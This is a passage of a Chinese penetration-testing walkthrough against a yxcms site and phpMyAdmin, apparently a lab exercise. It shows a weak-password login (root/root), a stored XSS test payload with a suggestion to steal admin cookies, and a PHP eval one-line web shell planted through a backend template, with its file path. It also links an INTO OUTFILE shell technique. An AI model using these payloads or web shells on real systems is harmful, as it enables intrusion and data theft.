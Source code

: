 PhpMyAdmin弱口令
-------------

扫目录发现/phpmyadmin管理系统,我们还是尝试爆破弱口令，得到PHPMYADMIN管理系统密码：

bash

 代码解读

复制代码

`root/root`

![图片.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/b1bfcc1e17c742cdbd89e43a8e6c3c84~tplv-k3u1fbpfcp-zoom-in-crop-mark:1512:0:0:0.awebp?)

yxcms功能点 留言本 存在存储型XSS漏洞
-----------------------

在浏览网站结构时，发现留言板页面，通常留言板会存在XSS漏洞，我们尝试一下：

![图片.png](https://p6-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/38997dc0ed664695b36f7ea7aa9ee4ca~tplv-k3u1fbpfcp-zoom-in-crop-mark:1512:0:0:0.awebp?)

`test<script>alert(45)</script>`

![图片.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/1831db3096224852a22b46f755258b2f~tplv-k3u1fbpfcp-zoom-in-crop-mark:1512:0:0:0.awebp?)

成功弹窗，说明可以利用，之后可以利用这个漏洞获取管理员cookie等信息。

后台任意文件读写漏洞
----------

前面已知管理员账号密码，于是我们进入后台，发现存在前台模板，我们可以新建模板来传入一句话木马。

php

 代码解读

复制代码

`<?php eval($_POST[XINO]);?>` 

因为我们之前下载了源码，代码审计后发现文件保存路径为

arduino

 代码解读

复制代码

`yxcms/protected/apps/default/view/default/xino.php`

可以连接菜刀蚁剑。

PhpMyAdmin 开启全局日志getshell
-------------------------

参考：[phpMyAdmin拿shell的两种方法 - -冰封 - 博客园 (cnblogs.com)](https://link.juejin.cn?target=https%3A%2F%2Fwww.cnblogs.com%2Ffzblog%2Fp%2F13912387.html%23%3A~%3Atext%3D%25E4%25BA%258C.Phpmyadmin%25E6%258B%25BFshell%25E7%259A%2584%25E4%25B8%25A4%25E7%25A7%258D%25E6%2596%25B9%25E6%25B3%2595%25201.%25E4%25BD%258E%25E7%2589%2588%25E6%259C%25ACMysql%2520Mysql%25E4%25BD%258E%25E4%25BA%258E5.0%25EF%25BC%258C%25E5%258F%25AF%25E4%25BB%25A5%25E7%259B%25B4%25E6%258E%25A5%25E9%2580%259A%25E8%25BF%2587outfile%25E5%2586%2599%25E5%2585%25A5%25EF%25BC%259A%2520SELECT%2520%2522%253C%253Fphp%2520%2540assert%2520%2528%2524_REQUEST%2C%255B%2522%2520admin%2520%2522%255D%2529%253B%253F%253E%2522%2520INTO%2520OUTFILE%2520%2527%252F%25E7%25BD%2591%25E7%25AB%2599%25E7%25BB%259D%25E5%25AF%25B9%25E8%25B7%25AF%25E5%25BE%2584%252Fshell.php%2527%25202.%25E9%25AB%2598%25E7%2589%2588%25E6%259C%25ACMysql "https://www.cnblogs.com/fzblog/p/13912387.html#:~:text=%E4%BA%8C.Phpmyadmin%E6%8B%BFshell%E7%9A%84%E4%B8%A4%E7%A7%8D%E6%96%B9%E6%B3%95%201.%E4%BD%8E%E7%89%88%E6%9C%ACMysql%20Mysql%E4%BD%8E%E4%BA%8E5.0%EF%BC%8C%E5%8F%AF%E4%BB%A5%E7%9B%B4%E6%8E%A5%E9%80%9A%E8%BF%87outfile%E5%86%99%E5%85%A5%EF%BC%9A%20SELECT%20%22%3C%3Fphp%20%40assert%20%28%24_REQUEST,%5B%22%20admin%20%22%5D%29%3B%3F%3E%22%20INTO%20OUTFILE%20%27%2F%E7%BD%91%E7%AB%99%E7%BB%9D%E5%AF%B9%E8%B7%AF%E5%BE%84%2Fshell.php%27%202.%E9%AB%98%E7%89%88%E6%9C%ACMysql")
